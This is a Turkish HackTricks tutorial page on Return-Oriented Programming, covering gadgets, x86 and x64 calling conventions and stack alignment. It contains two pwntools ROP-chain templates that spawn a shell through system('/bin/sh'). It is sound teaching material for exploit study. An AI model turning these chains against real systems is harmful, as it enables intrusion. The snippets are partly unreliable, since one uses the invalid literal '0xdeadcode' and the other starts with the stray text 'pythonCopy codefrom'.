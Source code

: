 # ROP - Return Oriented Programing

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı göndererek HackTricks ve HackTricks Cloud github depolarına PR göndererek paylaşın**.

</details>

## **Temel Bilgiler**

**Return-Oriented Programming (ROP)**, **No-Execute (NX)** veya **Data Execution Prevention (DEP)** gibi güvenlik önlemlerini atlatmak için kullanılan gelişmiş bir istismar tekniğidir. Bir saldırgan, kabuk kodu enjekte etmek ve yürütmek yerine, ikili dosyada veya yüklenmiş kütüphanelerde zaten bulunan kod parçalarını, yani **"gadget"**'ları kullanır. Her gadget genellikle bir `ret` talimatı ile biter ve veri taşıma veya aritmetik işlemler gibi küçük bir işlem gerçekleştirir. Bu gadget'ları bir araya getirerek, bir saldırgan, NX/DEP korumalarını atlayarak keyfi işlemler gerçekleştirmek için bir yük oluşturabilir.

### ROP Nasıl Çalışır

1. **Kontrol Akışı Kaçırma**: İlk olarak, bir saldırganın bir programın kontrol akışını kaçırması gerekir, genellikle bir tampon taşması kullanarak yığın üzerinde kaydedilmiş bir dönüş adresini üzerine yazarak.
2. **Gadget Zinciri**: Saldırgan daha sonra istenen işlemleri gerçekleştirmek için dikkatlice gadget'ları seçer ve birbirine bağlar. Bu, bir işlev çağrısı için argümanları ayarlamayı, işlevi çağırmayı (örneğin, `system("/bin/sh")`), ve gerekli temizlik veya ek işlemleri ele almayı içerebilir.
3. **Yük Yürütme**: Zayıf işlev geri döndüğünde, meşru bir konuma dönüş yapmak yerine, gadget zincirini yürütmeye başlar.

## x86 Örneğinde ROP Zinciri

### **x86 (32-bit) Çağrı Kuralları**

* **cdecl**: Çağrı yapan yığını temizler. İşlev argümanları sağdan sola doğru yığın üzerine itilir. **Argümanlar sağdan sola doğru yığın üzerine itilir.**
* **stdcall**: cdecl'ye benzer, ancak yığını temizleme işlemi çağrıyı alanın sorumluluğundadır.

### **Gadget Bulma**

İlk olarak, ikili dosyada veya yüklenmiş kütüphanelerde gerekli gadget'ları tanımladığımızı varsayalım. İlgilendiğimiz gadget'lar şunlardır:

* `pop eax; ret`: Bu gadget, yığının en üst değerini `EAX` kaydedicisine iter ve ardından dönüş yaparak `EAX` üzerinde kontrol sağlar.
* `pop ebx; ret`: Yukarıdakiyle benzer, ancak `EBX` kaydedicisi için, `EBX` üzerinde kontrol sağlar.
* `mov [ebx], eax; ret`: `EAX` içindeki değeri `EBX` tarafından işaret edilen bellek konumuna taşır ve ardından dönüş yapar.
* Ayrıca, `system()` işlevinin adresine sahibiz.

### **ROP Zinciri**

**pwntools** kullanarak, ROP zinciri yürütmesi için yığını aşağıdaki gibi hazırlıyoruz, `system('/bin/sh')`'yi yürütmeyi amaçlayarak, zincirin aşağıdaki gibi başladığına dikkat edin:

1. Hizalama amaçlı bir `ret` talimatı (isteğe bağlı)
2. `system` işlevinin adresi (ASLR devre dışı bırakılmış ve bilinen libc varsayılarak, daha fazla bilgi için [**Ret2lib**](ret2lib/))
3. `system()`'dan dönüş adresi için yer tutucu
4. `"/bin/sh"` dizesi adresi (sistem işlevi için parametre)
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadcode

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## x64 Örneğinde ROP Zinciri

### **x64 (64-bit) Çağrı Kuralları**

* Unix benzeri sistemlerde **System V AMD64 ABI** çağrı kuralını kullanır, burada **ilk altı tamsayı veya işaretçi argüman `RDI`, `RSI`, `RDX`, `RCX`, `R8` ve `R9`** registerlerine iletilir. Ek argümanlar yığına iletilir. Dönüş değeri `RAX` registerine yerleştirilir.
* **Windows x64** çağrı kuralı ilk dört tamsayı veya işaretçi argümanlar için `RCX`, `RDX`, `R8` ve `R9` kullanır, ek argümanlar yığına iletilir. Dönüş değeri `RAX` registerine yerleştirilir.
* **Registerler**: 64-bit registerler arasında `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP` ve `R8` ile `R15` bulunur.

#### **Gadget'lar Bulma**

Amacımız, **RDI** registerini ayarlamamıza ( **system()** fonksiyonuna **"/bin/sh"** dizesini argüman olarak iletmek için) ve ardından **system()** fonksiyonunu çağırmamıza izin verecek gadget'ları bulmaya odaklanalım. Aşağıdaki gadget'ları tanımladığımızı varsayalım:

* **pop rdi; ret**: Yığının en üst değerini **RDI** registerine çıkarır ve ardından döner. **system()** için argümanımızı ayarlamak için temel öneme sahiptir.
* **ret**: Basit bir dönüş, bazı senaryolarda yığın hizalaması için kullanışlıdır.

Ve **system()** fonksiyonunun adresini biliyoruz.

### **ROP Zinciri**

Aşağıda, **system('/bin/sh')**'yi çalıştırmayı amaçlayan bir ROP zinciri oluşturmak ve yürütmek için **pwntools** kullanarak bir örnek bulunmaktadır:
```python
pythonCopy codefrom pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
### Stack Alignment

**x86-64 ABI**, bir **çağrı talimatı** yürütüldüğünde **yığının 16 bayt hizalandığını** sağlar. **LIBC**, performansı optimize etmek için **SSE talimatları** (örneğin **movaps**) kullanır ve bu hizalamayı gerektirir. Eğer yığın düzgün hizalanmamışsa (yani **RSP** 16'nın katı değilse), **ROP zincirinde** **system** gibi fonksiyonlara yapılan çağrılar başarısız olacaktır. Bunun düzeltilmesi için ROP zincirinizde **system**'i çağırmadan önce bir **ret gadget** ekleyin.

## x86 vs x64 ana farkı

{% hint style="success" %}
x64, ilk birkaç argüman için kayıtları kullandığından, basit fonksiyon çağrıları için genellikle x86'dan daha az gadget gerektirir, ancak doğru gadget'ları bulmak ve zincirlemek, artan kayıt sayısı ve daha büyük adres alanı nedeniyle daha karmaşık olabilir. **x64** mimarisinde artan kayıt sayısı ve daha büyük adres alanı, özellikle Return-Oriented Programming (ROP) bağlamında, hem fırsatlar hem de zorluklar sunar.
{% endhint %}

## Korumalar

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/)
* [**Yığın Kanaryaları**](../common-binary-protections-and-bypasses/stack-canaries/)

## Diğer Örnekler ve Referanslar

* [https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions)

## ROP tabanlı teknikler

ROP'un yalnızca keyfi kodu yürütmek için bir teknik olduğunu unutmayın. ROP'a dayalı birçok Ret2XXX tekniği geliştirilmiştir:

* **Ret2lib**: ROP'u yüklenmiş bir kütüphaneden keyfi parametrelerle keyfi işlevleri çağırmak için kullanın (genellikle `system('/bin/sh')` gibi).

{% content-ref url="ret2lib/" %}
[ret2lib](ret2lib/)
{% endcontent-ref %}

* **Ret2Syscall**: ROP'u bir sistem çağrısını hazırlamak için kullanın, örneğin `execve`, ve bunu keyfi komutları yürütmek için kullanın.

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

* **EBP2Ret ve EBP Zincirleme**: İlk olarak, akışı kontrol etmek için EIP yerine EBP'yi kötüye kullanacak ve ikincisi Ret2lib'e benzer ancak bu durumda akış genellikle EBP adresleriyle kontrol edilir (ancak EIP'nin de kontrol edilmesi gerekmektedir).

{% content-ref url="ebp2ret-ebp-chaining.md" %}
[ebp2ret-ebp-chaining.md](ebp2ret-ebp-chaining.md)
{% endcontent-ref %}
